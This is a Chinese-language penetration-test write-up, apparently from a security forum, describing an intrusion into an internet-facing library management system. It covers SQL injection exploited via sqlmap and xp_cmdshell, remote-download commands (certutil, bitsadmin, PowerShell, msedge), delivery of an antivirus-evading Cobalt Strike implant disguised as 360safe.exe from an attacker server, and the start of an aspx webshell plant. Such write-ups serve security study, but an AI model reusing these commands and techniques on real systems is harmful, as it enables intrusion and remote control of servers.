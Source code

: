 ### **一、图书馆管理系统**

#### 1.1 SQL注入开启xp\_cmdshell

1.1.1 首先是图书馆管理系统，这个系统是开在公网的。目录扫描发现Web Api Help接口文档泄露。我们拼接上图的第二个接口，发现在szReaderID参数处传入单数个单引号，就会报错；传入双数个单引号，就会回显操作成功。证明很可能存在注入。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-f4eaadd7ae6cf3c4dccd242fbcb4401f36a105b4.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-348f6cc2e10cd912fd0ef4568f8fdc7335dc558b.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-5508bb64e48ca0d3525845053e4b80e95ca2f9b3.png)

1.1.2 sqlmap跑一下。因为是sql server，所以可以直接--os-shell开启xp\_cmdshell来命令执行。当前的权限还很低，为了进一步提权，得上个CS马。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-01be28db5bc975f1e7d9933eb87e7b78259bc403.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-85647a9cecda63e7a522d4272d95ec342a74c44a.png)

#### **1.2 尝试远程下载上线CS**

1.2.1 以下是一些常用的远程下载命令

`certutil -urlcache -split -f http://127.0.0.1:8080/nc.txt c:\\nc.txt  //certutil下载文件`

`bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip c:\\Pstools.zip  //bitsadmin下载文件`

`powershell -nop -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://127.0.0.1/nc.txt','nc.exe')   //powershell下载文件`

`cmd /c start /min msedge.exe http://127.0.0.1/test.zip && timeout 5 && taskkill /f /t /im msedge.exe && C:/Users/%UserName%/Downloads/test.zip  //msedge下载并执行`

1.2.2 tasklist /svc 看一下，发现有defender，那么我们就可以做个免杀CS马传上去。先在本地开启一个python的http服务，把马放在上面，再在sqlmap上让目标服务器执行  
`powershell -nop -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://xxx.xxx.xxx.xx:8000/360safe.exe','c:\\programdata\\360safe.exe') `，  
把马360safe.exe远程下载到他C盘的programdata目录下。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-fdbb08651bda881f010fe9580160c0f9c55b3d84.png)

1.2.3 成功地传上了马，但执行木马时，却发现无法执行。后面又尝试把马放到其他几个目录执行，也还是不行。可能是权限问题。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-087395c6b737afc2425a2fc78f9af0d10696786e.png)

#### **1.3 找网站根目录写shell**

1.3.1 那就写aspx的webshell到网站里吧。这里存放js的目录也是可以解析aspx的，我们可以执行命令全局搜索目标系统的js文件。

`Dir /s /b D:\\app.a1cccec9.js`

得知其该系统存放JS的目录是D:\\\\disttsg\\dist\\js 。这时我们就可以让目标服务器抓取webshell了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-23ffc3071afe88fd818df021fe6ada737f8e500d.png)
